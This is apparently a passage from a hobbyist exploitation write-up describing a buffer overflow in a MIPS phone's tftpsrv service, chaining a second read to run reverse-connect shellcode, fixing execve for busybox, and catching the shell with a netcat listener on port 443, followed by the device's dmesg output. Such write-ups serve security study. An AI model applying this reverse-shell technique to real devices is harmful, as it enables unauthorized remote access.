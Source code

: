 So couple things to remember here, with the MIPS instruction pipeline, when a branch happens the command after the branch still gets executed. So it just so happens that at the end of `probe_recv v0` is greater than 0. So `s0` is our file descriptor, `s1` is our buffer and `a2` always gets set to 220 bytes. So now we jump into read and set the app to wait for our next UDP packet to come in on port 9999. I set the buffer to write to the data segment at `0x10000000` and the second return address was still an address we overwrote in the buffer overflow so I set to to jump into my code at `0x10000000`.

Huzzah, I could now run whatever code I wanted as long as it fit into 220 bytes. I googled some mips reverse connect shell code and pasted it into my exploit.py shell script. I set up my machine to run netcat listening on port 443, ran my python script and boom, the phone connected back to me.

Quick side note here, it took a lot more time than I just made it out to be to get my shellcode correct. I made it sound easy, but luckily I was able to run the tftpsrv exe in gdb on my qemu machine which made things super nice. I could inspect the stack to figure out my offsets and also test out the reverse connect shellcode. I got it working on my virtual machine and then the first time I ran it on the phone it didn't actually work. Then I realized, the shell code was calling

```c
execve("/bin/sh", NULL, NULL)
```

Which worked fine on my qemu machine but on the phone, which has busybox installed on it, /bin/sh is just a softlink and busybox inspects the argv parameter to figure out what it should actually run. So I changed it to to pass in a valid argv and then everything worked.

So I end up with this

```shell
nc -vv -l 443
Connection accepted
dmesg
**********************
start_cpu_imem = 0x80192000
**********************
Detected SD9218 (PRID: c401),
Revision: 00,
Chip  ID: 00,
16 MB SDRAM.
CPU revision is: 0000c401
64 entry TLB.
Primary instruction cache 8kb, linesize 4 bytes
Primary data cache 8kb, linesize 16 bytes
Linux version:   2009.08.28-10:22+0000
Determined physical RAM map:
 memory: 01000000 @ 00000000 (usable)
Initial ramdisk at: 0x801d0000 (863317 bytes)
On node 0 totalpages: 4096
zone(0): 4096 pages.
zone(1): 0 pages.
zone(2): 0 pages.

=============================
P123_OS V:01.00.05 2007.07.27
=============================
Kernel command line:
Calibrating delay loop... 199.47 BogoMIPS
MIPS CPU counter frequency is fixed at 3125000 Hz
Memory: 13340k/16384k available (1580k kernel code, 3044k reserved, 974k data, 72k init)
Dentry-cache hash table entries: 2048 (order: 2, 16384 bytes)
Inode-cache hash table entries: 1024 (order: 1, 8192 bytes)
Mount-cache hash table entries: 512 (order: 0, 4096 bytes)
Buffer-cache hash table entries: 1024 (order: 0, 4096 bytes)
Page-cache hash table entries: 4096 (order: 2, 16384 bytes)
Checking for 'wait' instruction...  unavailable.
POSIX conformance testing by UNIFIX
PCI: Probing PCI hardware on host bus 0.
```